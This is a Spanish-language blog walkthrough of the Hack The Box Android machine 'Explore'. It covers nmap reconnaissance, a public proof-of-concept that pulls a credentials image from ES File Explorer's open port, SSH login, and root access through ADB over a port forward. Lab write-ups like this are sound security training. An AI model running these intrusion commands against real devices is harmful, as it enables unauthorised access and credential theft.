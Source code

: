 ```yaml
---
title: Explore - Hack The Box
categories: [Android, Linux, ES File Explorer, Android Debug Bridge, ADB, Remote Port Forwarding]
published: true
lang: es
---
```


En esta ocasión vamos a estar resolviendo la máquina _Explore_ de _Hack The Box_. Es una máquina _Android_ de nivel de dificultad fácil en la intrusión, y medio en la escalada de privilegios según figura en la plataforma.

![User Rated Difficulty](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/1.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Fase De Reconocimiento

Primeramente vamos a lanzar una _traza ICMP_ para saber si la máquina está activa.

```
ping -c 1 10.10.10.247
```

![2](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/2.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez comprobamos que la máquina está activa (pues nos devuelve una respuesta), podemos también determinar a que tipo de máquina nos estamos enfrentando en base al valor del _TTL_; en este caso el valor del _TTL_ de la máquina es `63`, por lo que podemos intuir que estamos ante una máquina _Linux_. Recordemos que algunos de los valores referenciales son los siguientes:

| Sistema Operativo (OS) | TTL |
|:-----------------------|:----|
| Linux                  | 64  |
| Windows                | 128 |
| Solaris                | 254 | 

Si nos damos cuenta, en esta ocasión, el valor del _TTL_ es `63` y no `64` como indica la tabla anterior, esto se debe a que en el entorno de máquinas de _Hack The Box_, no nos comunicamos directamente con la máquina a vulnerar, sino que existe un nodo intermediario, por lo que el _TTL_ disminuye en una unidad.

```
ping -c 1 10.10.10.247 -R
``` 

![3](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/3.png){:class="blog-image" onclick="expandImage(this)"} 

Posteriormente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos, así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```bash
nmap -p- --open -T5 -v -n 10.10.10.247
```

En caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:

| Parámetro | Explicación |
|:----------|:------------|
| \-p\- | Escanea todo el rango de puertos (65535 en total) |
| \-\-open | Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos) |
| \-T5 | La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat` | 
| \-v | _Verbose_, reporta lo encontrado por consola |
| \-n | No aplicar _resolución DNS_ |
| \-sS | Escaneo _TCP SYN_ |
| \-min-rate | Emitir paquetes no más lentos que \<valor\> por segundo |
| \-vvv | Triple _verbose_, para obtener mayor información por consola |
| \-Pn | No aplicar _host discovery_ |

Una vez hemos detectado los puertos que se encuentran abiertos en el activo, podemos pasar a determinar la versión y servicios que corren bajo estos puertos.

```bash
nmap -sC -sV -p 2222,42135,42607,59777 10.10.10.247
```

A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

| Parámetro | Explicación |
|:----------|:------------|
| \-sC | Scripts básicos de enumeración |
| \-sV | Versión y servicios que corren bajo los puertos encontrados |
| \-p | Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior) |

Basándonos en la información que nos reporta _Nmap_, podemos darnos cuenta que nos encontramos frente a un teléfono móvil, y nuestra primera gran pista para la siguiente fase es el puerto `42135`.

![4](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/4.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Fase De Explotación

Para explotar el servicio `ES File Explorer`, empezaremos buscando algún exploit que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ES File Explorer
```

![5](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/5.png){:class="blog-image" onclick="expandImage(this)"} 

En este caso _SearchSploit_ no mostró nada interesante, sin embargo, si revisamos manualmente en la página de _Exploit Database_, podemos encontrar un script que nos permite leer archivos alojados en el servicio de `ES File Explorer` de versión `4.1.9.7.4`, por esta razón es importante no quedarnos conformes únicamente con el primer resultado que encontremos.

![6](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/6.png){:class="blog-image" onclick="expandImage(this)"} 

Sin embargo, tampoco será este el script con el que trabajaremos; en esta ocasión estaremos utilizando un proyecto de _GitHub_ del usuario _fs0c131y_, este se llama [ESFileExplorerOpenPortVuln](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln).

Para empezar a trabajar con este repositorio bastará con clonarlo en nuestra máquina.

``` 
git clone https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
```

Una vez lo tengamos descargado, podemos empezar a revisar que información se alojaba en el servicio `ES File Explorer`.

Después de estar listando el contenido almacenado en el teléfono móvil, encontramos entre las fotografías, una llamada `creds`, lo cual nos hace pensar a que se refiere a credenciales con las que posteriormente autenticarnos.

```
python3 poc.py --cmd listPics --ip 10.10.10.247
``` 

![7](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/7.png){:class="blog-image" onclick="expandImage(this)"} 

Por lo que procedemos a descargar esta imagen.

```  
python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
``` 

![8](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/8.png){:class="blog-image" onclick="expandImage(this)"} 

![9](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/9.png){:class="blog-image" onclick="expandImage(this)"} 

Si recordamos, otro servicio que detectamos con _Nmap_, fue el servicio _SSH_ en el puerto `2222`.

![10](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/10.png){:class="blog-image" onclick="expandImage(this)"} 

Por lo que procederemos a autenticarnos con las credenciales encontradas:

``` 
ssh kristi@10.10.10.247 -p 2222
```

![11](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/11.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez dentro de la máquina, procederemos a buscar la primera flag. Por lo que buscaremos el archivo `user.txt` dentro de todo el sistema.

```
echo **/*user.txt*
```

![12](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/12.png){:class="blog-image" onclick="expandImage(this)"} 

![13](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/13.png){:class="blog-image" onclick="expandImage(this)"} 

Podemos ver que en efecto esta es la flag del usuario con bajos privilegios.

Lo más común sería utilizar `find / -name user.txt` (y en este caso, redirigir todo el _stderr_ o _Standard Error_ hacia el `/dev/null`), sin embargo, no conseguimos ningún resultado en esta máquina, por lo que resulta conveniente conocer otros métodos para realizar el mismo proceso.

### [](#header-3)Escalada De Privilegios

Para poder conseguir la siguiente flag (la del usuario con máximos privilegios), tenemos que percatarnos que la máquina tiene más puertos abiertos que los registrados con _Nmap_, a estos se los conoce como _puertos internos_.

``` 
netstat -nlpt
```

![14](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/14.png){:class="blog-image" onclick="expandImage(this)"} 

Si nos percatamos, la máquina utiliza el puerto `5555` para realizar varios procesos relacionados con _Android_; esto tiene sentido ya que algunos dispositivos _Android_ tienen este puerto abierto para realizar procesos relacionados con el `Android Debug Bridge` o `ADB` por sus siglas en inglés. 

Por lo que, lo que vamos a realizar es un `remote port forwarding`, para posteriormente, con el servicio `ADB` conseguir una shell de máximos privilegios con la que poder migrar al usuario root y conseguir la última flag. 

En caso de no contar con el servicio `ADB` instalado, bastará con realizar lo siguiente:

```
sudo apt install adb
```

Una vez instalado el servicio `ADB`, podemos pasar a conseguir una shell con máximos privilegios dentro del dispositivo.

```
ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
``` 

```
adb start-server
adb connect localhost:5555
adb devices
adb -s localhost:5555 shell
su root
```

![15](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/15.png){:class="blog-image" onclick="expandImage(this)"} 

Una vez hemos migrado al usuario root, simplemente tendremos que buscar la respectiva flag.

```
echo **/*root.txt*
```

![16](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2021-10-04-Explore-Hack-The-Box/16.png){:class="blog-image" onclick="expandImage(this)"} 
